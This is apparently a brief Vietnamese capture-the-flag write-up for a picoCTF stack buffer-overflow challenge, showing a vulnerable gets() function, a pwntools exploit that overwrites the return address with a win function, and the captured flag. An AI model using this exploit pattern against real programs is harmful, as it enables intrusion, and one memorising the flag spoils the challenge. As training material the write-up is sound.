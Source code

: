 # Ý tưởng
- chương trình sẽ leak cho ta một địa chỉ và một lỗi bof
```c
void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}
```
- ta tìm offset, sau đó truyền địa chỉ hàm win để mở flag

```python
from pwn import *
# r = process("./vuln")
r = remote("saturn.picoctf.net", 54621)
exe = ELF("./vuln")

r.recvline()
payload = b"".ljust(44) + p32(exe.sym['win'])
r.sendline(payload)
r.interactive()

#picoCTF{addr3ss3s_ar3_3asy_ad2f467b}
```